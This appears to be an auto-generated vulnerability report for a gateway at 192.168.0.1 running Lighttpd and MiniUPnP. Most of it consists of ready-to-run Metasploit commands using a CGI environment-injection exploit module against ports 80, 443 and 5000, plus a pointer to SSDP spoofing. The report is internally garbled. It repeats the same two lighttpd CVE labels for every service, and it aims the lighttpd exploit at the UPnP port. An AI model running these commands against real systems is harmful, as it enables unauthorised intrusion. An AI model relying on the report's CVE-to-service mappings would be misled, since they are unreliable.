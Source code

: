 **Vulnerability Report: Remote System Exploitation**

**Title:** Potential Vulnerabilities in Lighttpd and MiniUPnP Services

**Background:**
The remote system in question is running multiple services, including Lighttpd HTTP Server, Lighttpd HTTPS Server, and MiniUPnP UPnP Server. Lighttpd is an open-source web server optimized for speed-critical environments, while MiniUPnP is a software that implements the Universal Plug and Play (UPnP) protocol.

**Target Information:**

* Hostname: _gateway
* IP Address: 192.168.0.1
* Open Ports:
	+ 80/tcp: Lighttpd HTTP Server
	+ 443/tcp: Lighttpd HTTPS Server
	+ 5000/tcp: MiniUPnP UPnP Server
* Product and CPE:
	+ Lighttpd: Unknown version
	+ MiniUPnP: 1.9 (UPnP 1.1)

**Suggested Actions:**

**Lighttpd HTTP Server (80/tcp):**

* Exploit: CVE-2014-2320 - Multiple vulnerabilities in lighttpd 1.4.31
	+ Command line example:
	```
	use exploit/unix/webapp/lighttpd_mod_cgi_bash_env_exec
	set RHOSTS 192.168.0.1
	set RPORT 80
	set TARGETURI /cgi-bin/status
	run
	```
* Exploit: CVE-2014-2322 - Multiple vulnerabilities in lighttpd 1.4.31
	+ Command line example:
	```
	use exploit/unix/webapp/lighttpd_mod_cgi_bash_env_exec
	set RHOSTS 192.168.0.1
	set RPORT 80
	set TARGETURI /cgi-bin/status
	run
	```

**Lighttpd HTTPS Server (443/tcp):**

* Exploit: CVE-2014-2320 - Multiple vulnerabilities in lighttpd 1.4.31
	+ Command line example:
	```
	use exploit/unix/webapp/lighttpd_mod_cgi_bash_env_exec
	set RHOSTS 192.168.0.1
	set RPORT 443
	set TARGETURI /cgi-bin/status
	run
	```
* Exploit: CVE-2014-2322 - Multiple vulnerabilities in lighttpd 1.4.31
	+ Command line example:
	```
	use exploit/unix/webapp/lighttpd_mod_cgi_bash_env_exec
	set RHOSTS 192.168.0.1
	set RPORT 443
	set TARGETURI /cgi-bin/status
	run
	```

**MiniUPnP UPnP Server (5000/tcp):**

* Exploit: CVE-2014-2320 - Multiple vulnerabilities in lighttpd 1.4.31
	+ Command line example:
	```
	use exploit/unix/webapp/lighttpd_mod_cgi_bash_env_exec
	set RHOSTS 192.168.0.1
	set RPORT 5000
	set TARGETURI /cgi-bin/status
	run
	```
* Exploit: CVE-2014-2322 - Multiple vulnerabilities in lighttpd 1.4.31
	+ Command line example:
	```
	use exploit/unix/webapp/lighttpd_mod_cgi_bash_env_exec
	set RHOSTS 192.168.0.1
	set RPORT 5000
	set TARGETURI /cgi-bin/status
	run
	```

**Attack Vectors:**

* **Lighttpd:**
	+ CGI vulnerability: Manipulate environment variables to exploit the vulnerability.
	+ URL Format Bypass: Use a python server to bypass url param filtering.
* **MiniUPnP 1.9:**
	+ Spoofing SSDP and UPnP Devices with EvilSSDP: Use EvilSSDP to spoof SSDP and UPnP devices.

**Useful Tools and Reference Links:**

* EvilSSDP: https://book.hacktricks.xyz/generic-methodologies-and-resources/pentesting-network/spoofing-ssdp-and-upnp-devices
* HackTricks: https://book.hacktricks.xyz/

**Potential Impact:**
The exploitation of these vulnerabilities could lead to a significant impact on the confidentiality, integrity, and availability of the remote system. An attacker could potentially gain unauthorized access to sensitive data, disrupt the normal functioning of the system, or even take control of the system.

Note: The above exploits are hypothetical and for educational purposes only. Actual exploitation should be conducted within legal boundaries and with proper authorization.